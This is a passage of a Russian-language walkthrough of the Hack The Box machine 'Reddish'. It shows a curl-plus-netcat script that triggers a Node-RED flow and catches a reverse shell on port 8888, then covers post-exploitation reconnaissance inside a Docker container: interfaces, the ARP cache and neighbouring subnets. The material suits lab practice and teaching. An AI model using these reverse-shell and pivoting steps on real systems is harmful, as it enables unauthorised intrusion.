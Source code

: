 ```
node-red> ls -la /bin/sh
lrwxrwxrwx 1 root root 4 Nov  8  2014 /bin/sh -> dash
```

Теперь я могу написать простой [Bash-скрипт](https://github.com/snovvcrash/xakepru/blob/master/htb-reddish/ping-sweep.sh), чтобы триггерить callback в один клик из командной строки.

```bash
#!/usr/bin/env bash

(sleep 0.5; curl -s -X POST http://10.10.10.94:1880/red/a237ac201a5e6c6aa198d974da3705b8/inject/7635e880.e6be48 >/dev/null &)
rlwrap nc -lvnp 8888
```

Адрес URL, который я передаю `curl` — тот адрес, где расположился объект Inject данного потока (то есть кнопка *Go!* на рисунке выше). Также я использую [rlwrap](https://github.com/hanslub42/rlwrap), чтобы не сойти с ума от невозможности использовать стрелки влево-вправо для перемещения по вводимой строке и вверх-вниз для перемещения по истории команд.

У нас есть шелл, поэтому пора разобраться, куда мы попали.

# Докер. Контейнер I: "nodered"

Уже с первых секунд пребывания на сервере становится очевидно, что мы внутри докера, так как наш шелл вернулся от имени суперпользователя root.

Это же предположение подтверждает скрипт lse.sh, заброшенный на машину в прошлом параграфе.

![nodered-lse-out.png](/assets/images/htb/machines/reddish/nodered-lse-out.png)
{:.center-image}

Ну а если ты и ему не веришь, можно убедиться в этом лично: в корне файловой системы (далее «ФС») существует директория `.dockerenv`.

```
root@nodered:/node-red# ls -la /.dockerenv
-rwxr-xr-x 1 root root 0 May  4  2018 /.dockerenv
```

Если ты оказался в докере, первым делом рекомендуется проверить сетевое окружение на случай, если это не единичный контейнер в цепочке. В текущей системе отсутствует `ifconfig`, поэтому информацию о сетевых интерфейсах будем смотреть с помощью `ip addr`.

![nodered-ip-addr.png](/assets/images/htb/machines/reddish/nodered-ip-addr.png)
{:.center-image}

Как видно, этот докер может общаться с двумя подсетями: `172.18.0.0/16` и `172.19.0.0/16`. В первой подсети контейнер (будем называть его `nodered`) имеет IP-адрес `172.18.0.2`, а во второй — `172.19.0.4`. Посмотрим, с какими еще хостами взаимодействовал `nodered`.

![nodered-arp-cache.png](/assets/images/htb/machines/reddish/nodered-arp-cache.png)
{:.center-image}

Кэш ARP указывает на то, что `nodered` знает как минимум еще два хоста: `172.19.0.2` и `172.19.0.3` (хосты `.1` не беру во внимание, так как, скорее всего, это [шлюзы по умолчанию](https://ru.wikipedia.org/wiki/%D0%A8%D0%BB%D1%8E%D0%B7_%D0%BF%D0%BE_%D1%83%D0%BC%D0%BE%D0%BB%D1%87%D0%B0%D0%BD%D0%B8%D1%8E) к хостовой ОС).
